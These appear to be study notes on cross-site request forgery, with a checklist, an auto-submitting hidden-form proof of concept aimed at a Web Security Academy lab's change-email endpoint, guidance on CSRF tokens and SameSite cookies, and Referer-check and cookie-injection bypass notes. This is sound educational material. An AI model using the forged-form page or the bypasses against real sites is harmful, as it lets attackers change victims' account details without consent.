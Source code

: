 
# Checklist: Things to look for
  * [ ] Is there a relevant action
   + Such as changing an email
  * [ ] Cookie based session handling
  * [ ] No unredictable request parameters

```Example_Script
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acb91feb1e053ea78076271500a20022.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

---------------------------------------------------------

# Methodology
[Methodology]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection

---------------------------------------------------------

# How CSRF Tokens should be generated
1. Use an **unpredictable** value to differentiate requests
  + such as a `CSRF Token`
2. Tied to **USER'S** session
3. Make sure that the `CSRF Token` is _validated_ **BEFORE** anything
   requiring validation

---------------------------------------------------------

# How CSRF should be Transmitted
  **More Secure**
1. Hidden field of an _HTML Form_ using a _POST_ method
2. Custom request header (not common)

  **Less Secure**
3. Token submitted in the URL (less secure)
  + URLs can be logged in the back end
  + URLs are part of _Referer_ header so 3rd party apps can see it
  + Someone behind you can see it
4. Tokens transmitted within cookies
  + Shouldn't do this
  + When user clicks malicious link they might be able to access the both the:
   - Session cookie
   - CRSF Token as a cookie

  **Stateless Authentication**
5. Double submit cookie for stateless
  + Include `CSRF cookie` & `CSRF Token`
   - Double checks that both values are equal
  + If an **HTTP Header Injection** exists I can **INJECT A COOKIE**
    into a user's browser and add the cookie as a parameter to bypass this

---------------------------------------------------------

# How CSRF Tokens Should Be Validated
1. Generated and stored _server side_
2. Verify tokens for _every request_
3. Validation is done _regardless of HTTP method/content type_
4. If a token is **ABSENT** request is rejected

---------------------------------------------------------

# Additional Defense
 **SameSite Cookies**
 [Resource]: https://web.dev/samesite-cookies-explained/
 
1. `Set-Cookie: sesson=test; SameSite = Strict`
  + Only sent on first part conext and not by 3rd party
   - Usually not used cause it limits functionality
  + A malicious website would be rejected because it's not 1st party

2. `Set-Cookie: sesson=test; SameSite = Lax`
  + This is the _default_ if **NOT specified**
  + Allows _third party_ under 2 conditions
   - The _HTTP request_ is a `GET Method` (any other method like POST is not allowed)
   - Done by _top level navigation_ like clicking a link so the cookie is not
      sent by a script
  ```Example
      <!-- Cookie NOT SENT when browser requests cat.png -->
      <img src = "https://blog.example/blog/img/cat.png" />
      
      <!-- Cookie would only get sent if the user went to the link -->
  ```

3. `Set-Cookie: sesson=choco; SameSite = None; Secure`

---------------------------------------------------------

# Inadequate Defense

### Referer Header
  + Referer `HTTP request header` contains an absolute/parital _address of page
    making the request_
  + Checks if the `domain` of _matches_ the referer
  

  + These can be _spoofed_ (though difficult)
 **Potential Bypasses**
   - If it's _NOT present_, the application does _NOT check for it_
   - _ONLY_ checks if the `domain` _is in the request_ and _NOT an exact match_
     `www.malicious.com/?targetdomain.com`

---------------------------------------------------------


